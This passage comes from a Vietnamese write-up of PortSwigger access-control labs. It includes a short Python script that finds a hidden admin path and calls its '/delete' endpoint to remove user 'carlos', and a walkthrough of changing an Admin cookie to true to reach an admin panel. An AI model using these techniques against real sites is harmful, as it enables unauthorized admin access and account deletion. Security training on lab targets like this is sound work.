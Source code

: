 ```python=
match = re.search(pattern, response.text)

params = {
    'username': 'carlos',
}

response = session.get(
    url + match.group() + '/delete',
    params=params,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/By2tNDiYp.png)

mục đích của chúng ta là xóa carlos đã hoàn thành và mình cũng giải quyết được bài lab này

## 3. Lab: User role controlled by request parameter

link: https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter

### Đề bài

![image](https://hackmd.io/_uploads/Hy-7CdoFa.png)

### Phân tích

mình đăng nhập bằng tài khoản của user wiener

![image](https://hackmd.io/_uploads/SJbWYJhKp.png)

<ul>
    <li>bài cho chúng ta biết trang quản trị ở /admin nhưng đã xác thực bằng cookie nên chúng ta không thể truy cập vào</li>
</ul>

![image](https://hackmd.io/_uploads/HyCYytjtp.png)

### Khai thác

<li>mình bắt được gói tin khi đăng nhập và  đổi lại cookie ở phần Admin bằng true và vào được trang quản trị </li>

![image](https://hackmd.io/_uploads/rk78lKiF6.png)

![image](https://hackmd.io/_uploads/rymQBFsKa.png)
